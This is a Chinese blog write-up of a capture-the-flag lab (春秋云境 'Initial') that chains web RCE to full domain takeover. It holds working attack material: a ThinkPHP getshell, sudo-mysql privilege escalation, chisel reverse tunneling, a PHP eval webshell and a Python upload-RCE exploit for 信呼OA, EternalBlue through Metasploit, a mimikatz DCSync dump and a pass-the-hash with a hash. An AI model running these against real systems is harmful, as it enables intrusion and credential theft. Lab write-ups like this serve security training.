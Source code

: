 ```yaml
---
title: 春秋云境-Initial
subtitle:
date: 2025-03-14T14:19:42+08:00
slug: 8c9f848
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - 春秋云境
categories:
  - 春秋云境
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

![](images/b26f9fd59f01b8c198e5d89cdbdbf684.png)
外网打点

``` Shell
fscan -h 39.98.109.170
```

![](images/75b7336bfeb8fcde6d1a76ac6635c29d.png)
ico发现是Thinkphp
![](images/41ad37689e7c7b7cd9893aa9c6b90712.png)
Thinkphp综合利用工具
![](images/2cda5015a42cc1de1e1120ad6bfd24c5.png)
Getshell并进行传马
![](images/8c6d010e7f90dc253b9eb9bc31fe0f7d.png)
蚁剑连接
![](images/a419d62e170b68d15c58f7164ccbc2af.png)
尝试读取root，发现并没有权限
![](images/adca8dffec2ddaf0527401de69b2c80a.png)
尝试提权，suid不可利用，尝试sudo提权
![](images/3ad1c22f4b574350cf9920e0eb4ce993.png)
mysql配置了免密使用，mysql暂时拿到root权限，使用mysql -e命令即可，使用mysql -e命令查找root用户中的flag文件

``` Shell
sudo mysql -e '\! find / -name flag*'
```

![](images/c52ffdced9ffb469cd2b9624247f0d6c.png)
发现flag01.txt文件
![](images/d1059562426618ba3782e70921d3249c.png)
读取内容

``` Shell
sudo mysql -e '\! cat /root/flag/flag01.txt'
```

![](images/4b618a54fab991c70107bc187ae1f37e.png)
扫描内网，上传fscan到`/tmp`，并给予权限
![](images/eaa9c7175e9f77c29a7ac109a5585429.png)

```
chmod 777 fscan
```

查看网卡信息，并进行扫描

``` Shell
ip addr
```

![](images/e6175cc57bbd5cf7570297c69597456f.png)

``` Shell
./fscan -h 172.22.1.0/24 >> fscan.txt
```

![](images/6fe3a60941b9399c5bf52ec1524ee90a.png)
从结果可以得到目标
172.22.1.2:DC域控  
172.22.1.21:Windows的机器并且存在MS17-010 漏洞  
172.22.1.18:信呼OA办公系统
接下来搭建frp内网穿透，vps当作跳板机
上传chisel到`/tmp`，给予权限并运行

```
靶机
./chisel client vps_ip:9001 R:0.0.0.0:9002:socks

vps
./chisel server -p 9001 --reverse
```

![](images/0522a523ca8072ddc8af35cc7bbb7a00.png)
![](images/c8d57b364422ae14f96414e69d36e252.png)
代理成功，尝试访问信呼OA
![](images/dac60f4ec4f7a92855a83e5f5817156d.png)
![](images/9fbfa2a2f1c89c51877ba54bdcbcd058.png)
尝试弱口令爆破进入管理系统admin/admin123，登陆以后信呼OA存在rce，直接用exp打

``` 1.php
<?php @eval($_POST['t1ng']);?>
```

两个文件须在同一目录下

``` exp.py
import requests


session = requests.session()

url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'

data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}


r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']
print(id)
print(filepath)
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'

r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('dir');")
print(r.text)
```

![](images/6be8e70fb538aafca29943133c6f5ca7.png)
蚁剑设置代理，并且按照给出路径进行连接
![](images/7ee0b9505a2d9bf4e836c8fca17068e0.png)
![](images/998afd0e487b47cd6058be4ec10c939f.png)
在`C:/Users/Administrator/flag/flag02.txt`拿到第二部分flag
![](images/dd598f94e23105fdfb157f8b107c67c2.png)
先打172.22.1.21的MS17-010的永恒之蓝
配置一下kali虚拟机的socks5代理

```
vim /etc/proxychains4.conf

内容
socks5 vps_ip 9002 
```

接下来msf打永恒之蓝

```
proxychains4 msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp_uuid
set RHOSTS 172.22.1.21
exploit
```

![](images/d57d574f0008bf9cb865cd235ee3c56d.png)
拿到SYSTEM权限，`load kiwi`调用mimikatz模块，获取域内用户hash

```
load kiwi
kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit
```

![](images/808e5419b46d82bf8ffdc4dc9451ccc0.png)
用crackmapexec打PTH拿下域控

```
proxychains crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```

![](images/7f5326b1e7ce49a322bcd40960eff27d.png)
拿到第三段flag。

flag{60b53231-2ce3-4813-87d4-e8f88d0d43d6}

